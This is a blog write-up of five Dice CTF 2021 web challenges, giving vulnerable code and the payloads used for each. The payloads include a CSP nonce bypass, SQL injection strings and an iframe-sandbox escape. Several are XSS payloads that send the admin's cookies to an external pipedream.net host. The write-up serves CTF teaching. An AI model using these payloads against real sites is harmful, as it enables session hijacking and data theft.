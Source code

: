 ```yaml
---
layout: post
date: 2021-02-08 00:00:10
title: "Dice CTF 2021 Write Up"
categories: CTF
tags: [XSS, SQL Injection]
author:
  - Jeongwon Jo

---
```

![](https://github.com/wjddnjs33/image/blob/main/Dice%20CTF/dice%20main.png?raw=true)

---
## <span style="color:#21C587"></span> (Web) Babier CSP [107 pts]

> The Babier CSP challenge is a simple CSP Bypass challenge.

```html
<script nonce=LRGWAXOY98Es0zz0QOVmag==>
elem.onclick = () => {
  location = "/?name=" + encodeURIComponent(["apple", "orange", "pineapple", "pear"][Math.floor(4 * Math.random())]);
}
</script>
```
If you check the source code, you can see that the nonce value of the script tag is set as above. I thought that the admin bot was also applying the nonce value as above.

```
<script nonce=LRGWAXOY98Es0zz0QOVmag==>alert(1)</script>
<script nonce=LRGWAXOY98Es0zz0QOVmag==>location.href="https://79a9bb50560aa2c77156e03b431dc2b3.m.pipedream.net"%2bdocument.cookie</script>
```
The payload used is as above.<br>

> FLAG : dice{web_1s_a_stat3_0f_grac3_857720}

---
## <span style="color:#21C587"></span> (Web) Missing Flavortext [111 pts]

>  The Missing Flavortext challenge is a SQL Injection challenge that bypasses single quotas by using the features of express.js.

```javascript
if ([req.body.username, req.body.password].some(v => v.includes('\''))) {
  return res.redirect('/');
}
```
In the code above, single quota is filtered using the includes function. However, this can be bypassed by passing it as an array because it only verifies strings.

```
username=admin&password[]=1&password[]=' or '1'='1
```
The payload used is as above.<br>

> FLAG : dice{sq1i_d03sn7_3v3n_3x1s7_4nym0r3}

---
## <span style="color:#21C587"></span> (Web) Web Utils [121 pts]

> TThe Web Utils challenge is a challenge that triggers XSS using a vulnerability when receiving the req.body value.

```html
// view.html

<head>
  <script async>
    (async () => {
      const id = window.location.pathname.split('/')[2];
      if (! id) window.location = window.origin;
      const res = await fetch(`${window.origin}/api/data/${id}`);
      const { data, type } = await res.json();
      if (! data || ! type ) window.location = window.origin;
      if (type === 'link') return window.location = data;
      if (document.readyState !== "complete")
        await new Promise((r) => { window.addEventListener('load', r); });
      document.title = 'Paste';
      document.querySelector('div').textContent = data;
    })()
  </script>
</head>
```
It is view.html code, and if the type is link in the middle, you can see window.location as data. And if data contains a payload such as `javascript:alert(1)`, you can trigger xss.<br>

```javascript
// api.js
(skip)

module.exports = async (fastify) => {
  fastify.post('createLink', {
    handler: (req, rep) => {
      const uid = database.generateUid(8);
      const regex = new RegExp('^https?://');
      if (! regex.test(req.body.data))
        return rep
        
(skip)
```
However, if you look at the link creation logic, the value of `req.body.data` is verified with a regular expression. So, you can't put xss payload in the link creation logic.<br>

```javascript
// api.js
(skip)

fastify.post('createPaste', {
    handler: (req, rep) => {
      const uid = database.generateUid(8);
      database.addData({ type: 'paste', ...req.body, uid });
      rep
        .code(200)

(skip)
```
However, if you look at the logic that creates the Pate, there is no verification for req.body, which causes a vulnerability here. Using this, you can give type as link and data as xss payload.

```
{"data":"javascript:alert(1)","type":"link"}
{"data":"javascript:location.href='https://79a9bb50560aa2c77156e03b431dc2b3.m.pipedream.net/'%2bdocument.cookie","type":"link"}
```
The payload used is as above.<br>   

> FLAG : dice{f1r5t_u53ful_j4v45cr1pt_r3d1r3ct}

---
## <span style="color:#21C587"></span> (Web) Build a Panel [130 pts]

>  The Build a Panel challenge is the challenge of reading flags using SQL Injection in the insert statement.

```javascript
app.get('/admin/debug/add_widget', async (req, res) => {
    const cookies = req.cookies;
    const queryParams = req.query;

    if(cookies['token'] && cookies['token'] == secret_token){
        query = `INSERT INTO widgets (panelid, widgetname, widgetdata) VALUES ('${queryParams['panelid']}', '${queryParams['widgetname']}', '${queryParams['widgetdata']}');`;
        db.run(query, (err) => {
            if(err){
                console.log(err);
                res.send('something went wrong');
            }else{
                res.send('success!');
            }
        });
    }else{
        res.redirect('/');
    }
});
```
This is the logic of add_widget running on admin bot. When looking at the query, the input value is entered without any verification, so SQL Injection can be performed.<br>

If we put our panelid in panelid and a query that reads flag in widgetname, a widget is created on our server, and the widget name contains `FLAG`. (panelid is stored in a cookie.)

```
https://build-a-panel.dicec.tf/admin/debug/add_widget?panelid=pocas&widgetname=adfdaf&widgetdata=a'), ('pocas', (select flag from flag), '{"type":"pocas"}')--
```
The payload used is as above.<br> 

> FLAG : dice{ch41n_ChAIn_aNd_m0Re_cHaIn}

---

## <span style="color:#21C587"></span> (Web) Web IDE [196 pts]

> The Web IDE challenge is a challenge that bypasses iframe sandbox and triggers XSS.

- Scenario<br>

1. We are using `allow-scripts` as an option for iframe, and the value we input is executed by the eval function in sandbox.html.
2. The path to the administrator's cookie is /ide, so it is not easy to read the cookie. Because xss payload runs in /sandbox.html.
3. So, first you need to create a separate site and bypass the iframe sandbox.
4. If you bypass the iframe sandbox, you are not limited by sop, and you can freely execute xss payloads.
5. However, since xss payload is executed in `/sandbox.html`, it cannot read the admin cookie.
6. So, create an object using `window.open("/ide")`, and execute xss payload on the object to steal the cookie.<br>

```html
<!doctype html>
<html>
  <head>
    <title>xss poc</title>
    <script>
        async function sendMessage() {
            // window open -> make file -> include it
            const cmd="[].constructor.constructor(\"(async () => {const res = await fetch('https://web-ide.dicec.tf/ide/save', {method:'POST', headers: {'Content-Type': 'application/javascript'}, body: 'const myWindow = window.open(\\\"/ide\\\"); (async (myWindow) => { await setTimeout( async() => {await fetch(`https://en20uuq0p0wxmkp.m.pipedream.net/?flag=${myWindow.document.cookie}`)}, 500) })(myWindow)'}); const file_name = await res.text(); const scr = document.createElement('script'); scr.src = `/ide/saves/${file_name}`; document.body.appendChild(scr);})()\")()"
            
            await new Promise((r) => { window.addEventListener(('load'), r); });
            document.querySelector('iframe')
              .contentWindow
              .postMessage(cmd, '*');  // IDE -> sandbox message
        };
    </script>
  </head>
  <body>
      <img src='x' onerror="sendMessage()" />
      <iframe name='hh' src="https://web-ide.dicec.tf/sandbox.html" frameborder="0"></iframe>
  </body>
</html>
```
The payload used is as above.<br> 

> FLAG : dice{c0uldn7_f1nd_4_b4ckr0nym_f0r_1de}

---
